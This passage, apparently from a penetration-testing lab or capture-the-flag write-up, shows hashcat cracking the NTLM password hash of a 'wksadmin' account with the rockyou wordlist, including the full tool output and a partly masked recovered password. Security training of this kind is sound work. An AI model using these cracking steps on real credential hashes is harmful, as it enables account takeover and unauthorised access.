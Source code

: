 Copy the hash for wksadmin and crack it:

```
$ echo "5835048CE94AD0564E29A924A03510EF" > hash.txt
```

```
hashcat -m 1000 5835048CE94AD0564E29A924A03510EF /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD EPYC 7543 32-Core Processor, skipped

OpenCL API (OpenCL 2.1 LINUX) - Platform #2 [Intel(R) Corporation]
==================================================================
* Device #2: AMD EPYC 7543 32-Core Processor, 3923/7910 MB (988 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

5835048ce94ad0564e29a924a03510ef:XXXXXXXXXXXrd1    <--------------            
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 5835048ce94ad0564e29a924a03510ef
Time.Started.....: Fri Oct 17 23:52:18 2025 (0 secs)
Time.Estimated...: Fri Oct 17 23:52:18 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:  2573.7 kH/s (0.08ms) @ Accel:512 Loops:1 Thr:1 Vec:8
```
